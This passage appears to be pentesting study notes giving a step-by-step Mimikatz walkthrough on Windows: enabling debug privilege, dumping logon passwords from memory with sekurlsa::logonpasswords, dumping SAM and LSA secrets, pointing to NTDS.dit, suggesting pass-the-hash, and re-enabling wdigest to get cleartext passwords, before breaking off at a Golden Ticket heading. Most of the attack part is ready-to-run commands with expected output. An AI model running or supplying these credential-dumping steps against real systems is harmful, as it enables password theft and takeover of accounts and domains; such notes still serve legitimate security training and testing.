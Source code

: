 - Windows releases **updates** and **patches** for this attacks **frequently**, so be **up-to-date** with this thing.

- It's a ***powerful*** tool!



### Exploit

Mimikatz Wiki: [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki)

Fire up **cmd**

	mimikatz.exe
	privilege::debug
	
Here, **privilege** is a **module** and debug means that it is allowing us to debug a process 

Expected Outcome:

	Privilege '20' OK

Now we're going to attempt to **dump some information out of memory**

Since we have **Privilege Debug on**, now let's do some attacks!

	sekurlsa::logonpasswords

Tip: We can **pass the NTLM hash** around 

In the wdigest section we can see

	Password : (null)
	
Well in **Windows 7**, by default **wdigest feature** was on which stored **passwords in clear text!**

But in later versions of Windows they **patched** it (nah they **just turned it off**, mega big brain) 

We can **turn on** that feature using **mimikatz**!

We can also **dump sam**

	lsadump::sam
	
We can **dump lsa **

**Local Security Authority**, is a protected **sub-system** in Windows Authentication, which **Autheticates Logon Sessions** to the **Local Computer**

	lsadump::lsa /patch

**NTDS.dit** will also contain credentials 

	ntds.dit

<div style="page-break-after: always;"></div>
<br>

## Golden-Ticket-Attack

---